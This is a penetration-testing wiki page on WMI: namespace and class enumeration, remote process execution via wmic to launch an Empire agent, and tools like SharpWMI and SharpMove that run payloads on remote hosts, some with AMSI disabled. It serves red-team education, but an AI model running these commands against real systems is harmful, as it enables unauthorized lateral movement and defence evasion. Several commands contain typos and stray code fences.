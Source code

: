 # WmiExec


## How It Works Explained

Processes can be opened on hosts where the username and either password or hash are known through the use of WMI. Commands are executed using WMI by Wmiexec, providing a semi-interactive shell experience.

**dcomexec.py:** Utilizing different DCOM endpoints, this script offers a semi-interactive shell akin to wmiexec.py, specifically leveraging the ShellBrowserWindow DCOM object. It currently supports MMC20. Application, Shell Windows, and Shell Browser Window objects. (source: [[https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)|Hacking Articles]]

## WMI Fundamentals

### Namespace

Structured in a directory-style hierarchy, WMI's top-level container is \root, under which additional directories, referred to as namespaces, are organized.
Commands to list namespaces:

```bash
# Retrieval of Root namespaces
gwmi -namespace "root" -Class "__Namespace" | Select Name

# Enumeration of all namespaces (administrator privileges may be required)
Get-WmiObject -Class "__Namespace" -Namespace "Root" -List -Recurse 2> $null | select __Namespace | sort __Namespace

# Listing of namespaces within "root\cimv2"
Get-WmiObject -Class "__Namespace" -Namespace "root\cimv2" -List -Recurse 2> $null | select __Namespace | sort __Namespace
```
```
Classes within a namespace can be listed using:

```bash
gwmwi -List -Recurse # Defaults to "root\cimv2" if no namespace specified
gwmi -Namespace "root/microsoft" -List -Recurse
```
```
### **Classes**

Knowing a WMI class name, such as win32_process, and the namespace it resides in is crucial for any WMI operation.
Commands to list classes beginning with `win32`:

```bash
Get-WmiObject -Recurse -List -class win32* | more # Defaults to "root\cimv2"
gwmi -Namespace "root/microsoft" -List -Recurse -Class "MSFT_MpComput*"
```
```
Invocation of a class:

```bash
# Defaults to "root/cimv2" when namespace isn't specified
Get-WmiObject -Class win32_share
Get-WmiObject -Namespace "root/microsoft/windows/defender" -Class MSFT_MpComputerStatus
```
```
### Methods

Methods, which are one or more executable functions of WMI classes, can be executed.

```bash
# Class loading, method listing, and execution
$c = [wmiclass]"win32_share"
$c.methods
# To create a share: $c.Create("c:\share\path","name",0,$null,"My Description")
```
```
```bash
# Method listing and invocation
Invoke-WmiMethod -Class win32_share -Name Create -ArgumentList @($null, "Description", $null, "Name", $null, "c:\share\path",0)
```
```
## WMI Enumeration

### WMI Service Status

Commands to verify if the WMI service is operational:

```bash
# WMI service status check
Get-Service Winmgmt

# Via CMD
net start | findstr "Instrumentation"
```
```
### System and Process Information

Gathering system and process information through WMI:

```bash
Get-WmiObject -ClassName win32_operatingsystem | select * | more
Get-WmiObject win32_process | Select Name, Processid
```
```
For attackers, WMI is a potent tool for enumerating sensitive data about systems or domains.

```bash
wmic computerystem list full /format:list
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
```
```
Remote querying of WMI for specific information, such as local admins or logged-on users, is feasible with careful command construction.

### **Manual Remote WMI Querying**

Stealthy identification of local admins on a remote machine and logged-on users can be achieved through specific WMI queries. `wmic` also supports reading from a text file to execute commands on multiple nodes simultaneously.

To remotely execute a process over WMI, such as deploying an Empire agent, the following command structure is employed, with successful execution indicated by a return value of "0":

```bash
wmic /node:hostname /user:user path win32_process call create "empire launcher string here"
```
```
This process illustrates WMI's capability for remote execution and system enumeration, highlighting its utility for both system administration and penetration testing.

## Automatic Tools

- [[https://github.com/mertdas/SharpLateral|**SharpLateral**]]:

```bash
SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe
```
```
- [[https://github.com/GhostPack/SharpWMI|**SharpWMI**]]

```bash
SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]
# Stealthier execution with VBS
SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]
```
```
- [[https://github.com/0xthirteen/SharpMove|**https://github.com/0xthirteen/SharpMove**]]:

```bash
SharpMove.exe action=query computername=remote.host.local query="select * from win32_process" username=domain\user password=password
SharpMove.exe action=create computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true username=domain\user password=password
SharpMove.exe action=executevbs computername=remote.host.local eventname=Debug amsi=true username=domain\\user password=password
```
```
- You could also use **Impacket's `wmiexec`**.

## References

- [[https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/|https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/]]




